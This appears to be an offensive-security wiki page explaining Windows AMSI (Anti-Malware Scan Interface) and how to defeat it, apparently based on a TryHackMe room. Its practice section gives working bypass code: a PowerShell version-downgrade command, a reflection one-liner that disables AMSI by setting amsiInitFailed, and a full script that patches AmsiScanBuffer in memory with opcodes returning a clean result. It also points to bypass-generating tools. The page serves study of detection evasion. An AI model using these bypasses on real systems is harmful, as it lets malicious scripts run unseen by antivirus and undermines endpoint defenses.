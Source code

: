 # AMSI bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.

AMSI is fully integrated into the following Windows components:

* User Account Control, or UAC
* PowerShell
* Windows Script Host (wscript and cscript)
* JavaScript and VBScript
* Office VBA macros

The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.\


<figure><img src="../../../.gitbook/assets/35e16d45ce27145fcdf231fdb8dcb35e.png" alt="" width="563"><figcaption></figcaption></figure>

This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.\


<figure><img src="../../../.gitbook/assets/efca9438e858f0476a4ffd777c36501a.png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.
{% endhint %}

## Practice

To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) maintained by [Cobbr](https://github.com/cobbr) which is a GitHub fork of PowerShell with security feature removed, and compare it with an [offical PowerShell GitHub](https://github.com/PowerShell/PowerShell).

### PowerShell Downgrade

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.\
Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

{% tabs %}
{% tab title="Powershell" %}
We can simply use this command to downgrad powershell. This attacked is used in popular tools such as [Unicorn](https://github.com/trustedsec/unicorn)

```bash
PowerShell -Version 2
```

{% hint style="danger" %}
Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.
{% endhint %}
{% endtab %}
{% endtabs %}

### PowerShell Reflection

Reflection allows a user or administrator to access and interact with .NET assemblies. It can be abused to modify and identify information from valuable DLLs.\
The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.AmsiUtils**.

{% tabs %}
{% tab title="Powershell" %}
Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}

### Patching AMSI

AMSI is primarily instrumented and loaded from **amsi.dll**. This dll can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.\
AmsiScanBuffer is vulnerable because amsi.dll is loaded into the PowerShell process at startup; our session has the same permission level as the utility. AmsiScanBuffer will scan a "buffer" of suspected code and report it to amsi.dll to determine the response. We can control this function and overwrite the buffer with a clean return code.

{% tabs %}
{% tab title="C#" %}
At a high-level AMSI patching can be broken up into four steps,

* Obtain handle of amsi.dll
* Get process address of AmsiScanBuffer
* Modify memory protections of AmsiScanBuffer
* Write opcodes to AmsiScanBuffer

```bash
$MethodDefinition = "
    [DllImport(`"kernel32`")] // Import DLL where API call is stored
    public static extern IntPtr GetProcAddress( // API Call to import
        IntPtr hModule, // Handle to DLL module
        string procName // function or variable to obtain
    );

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(
        string lpModuleName // Module to obtain handle
    );

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(
        IntPtr lpAddress, // Address of region to modify
        UIntPtr dwSize, // Size of region
        uint flNewProtect, // Memory protection options
        out uint lpflOldProtect // Pointer to store previous protection options
    );
";
//Load the API calls
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

//Identify where amsi.dll is located and how to get to the function
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
);

//Modify the memory protection of the AmsiScanBuffer process region.
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 

//Overwrite the buffer
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```
{% endtab %}
{% endtabs %}

### AMSI Bypass Tools

While it is preferred to use the previous methods shown, attackers can use other automated tools to break AMSI signatures or compile a bypass.

{% tabs %}
{% tab title="AMSI.Fail" %}
[amsi.fail](https://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses.\
From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."
{% endtab %}

{% tab title="AMSITrigger" %}
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

```bash
C:\Users\v4resk\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}
